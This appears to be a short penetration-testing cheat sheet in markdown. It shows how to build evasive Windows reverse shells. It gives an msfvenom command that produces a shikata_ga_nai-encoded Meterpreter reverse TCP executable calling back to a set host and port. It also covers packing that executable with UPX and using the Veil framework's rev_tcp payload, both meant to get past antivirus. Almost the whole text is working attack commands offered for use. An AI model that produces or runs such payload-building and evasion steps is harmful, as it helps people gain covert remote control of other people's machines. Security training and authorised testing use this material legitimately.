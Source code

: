 
### MSFVENOM - 

Generate Encoded Payload - 
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 > shell.exe

Use UPX packer on the encoded executable -
`upx --best --ultra-brute -f shell.exe -o shell2.exe`

---
### Veil Framework - 

use - `python/meterpreter/rev_tcp.py`

Take this file and run it through UPX packer again - 
`upx --best --ultra-brute -f shell.exe -o shell2.exe`